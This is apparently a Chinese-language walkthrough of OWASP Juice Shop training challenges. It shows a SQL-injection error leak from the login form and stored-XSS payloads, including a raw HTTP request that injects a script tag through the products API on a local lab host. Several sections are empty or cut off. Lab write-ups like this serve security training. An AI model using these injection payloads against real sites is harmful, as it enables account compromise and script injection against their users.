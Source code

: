 ## Upload Type
修改一下上一题的后缀名即可
## User Credentials
根据登入处的报错知道有 id,user,email字段
```bash
{"error":{"message":"SQLITE_ERROR: near \"c4ca4238a0b923820dcc509a6f75849b\": syntax error","stack":"SequelizeDatabaseError: SQLITE_ERROR: near \"c4ca4238a0b923820dcc509a6f75849b\": syntax error\n at Query.formatError (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)","name":"SequelizeDatabaseError","parent":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = ''' AND password = 'c4ca4238a0b923820dcc509a6f75849b'"},"original":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = ''' AND password = 'c4ca4238a0b923820dcc509a6f75849b'"},"sql":"SELECT * FROM Users WHERE email = ''' AND password = 'c4ca4238a0b923820dcc509a6f75849b'"}}
```
在 `Christmas Special`这题上已经有过分析，要

## Vulnerable Library
## XSS Tier 2
实现存储行xss就要插入数据库，一开始在联系我们的评论界面上提交xss语句，进入后台查看，发现评论为空，全被过滤了，只好另寻他法。最后想到在注册用户那里，注册一个账户，页面上有js判断，不能直接插入，只好bp转包，将用户名改为 `<script>alert("XSS2")</script>` ，返回数据包失败，从返回的消息，知道将双引号，加了反斜杠，最后构造`<script>alert(\"XSS\")</script>`,返回包成功，再访问`administration`页面，弹框成功。
## XSS Tier 3
根本不使用前端应用程序执行持续的XSS攻击。
```bash
POST /api/Products HTTP/1.1
Host: 192.168.20.132:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6NywiZW1haWwiOiI0MzE3NzQ0MzdAcXEuY29tIiwicGFzc3dvcmQiOiI4ZWVkOWVkN2JjN2UxOGE4OTc1Y2E1YTM5MWUzMmEwYyIsImNyZWF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCJ9LCJpYXQiOjE1MjEwMzEwNjEsImV4cCI6MTUyMTA0OTA2MX0.VZz6FISGX8_U6FuaAl8e89cxhZtFX9sFRb-Dk17pvaMfNQB3_TloX5H-sS1pCqaxSfr3EYD6tQUkcKSpqNkIuurY6uGp8AATYJ-vYFDd-yoeSQZONda8KlufopMGSuWjsKO08XbxbcRNSqJw0Eb6hoWmaiIHQkgIskYBGTUnxqo
Content-Length: 82
Cookie: continueCode=QbNz3wepgLV0eBH4urh8tnc8IqT1iBf7uKtwIbT7ibuEI7f9ZABKn9jYlaxZ; io=QvKEDdlKHoHGbeCDAABM; email=431774437%40qq.com; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6NywiZW1haWwiOiI0MzE3NzQ0MzdAcXEuY29tIiwicGFzc3dvcmQiOiI4ZWVkOWVkN2JjN2UxOGE4OTc1Y2E1YTM5MWUzMmEwYyIsImNyZWF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCJ9LCJpYXQiOjE1MjEwMzEwNjEsImV4cCI6MTUyMTA0OTA2MX0.VZz6FISGX8_U6FuaAl8e89cxhZtFX9sFRb-Dk17pvaMfNQB3_TloX5H-sS1pCqaxSfr3EYD6tQUkcKSpqNkIuurY6uGp8AATYJ-vYFDd-yoeSQZONda8KlufopMGSuWjsKO08XbxbcRNSqJw0Eb6hoWmaiIHQkgIskYBGTUnxqo
X-Forwarded-For: 127.0.0.1, 127.0.0.1
Connection: close
Upgrade-Insecure-Reque

{"name": "XSS3", "description": "<script>alert(\"XSS\")</script>", "price": 47.11}
```
## XXE Tier 1
# 四颗星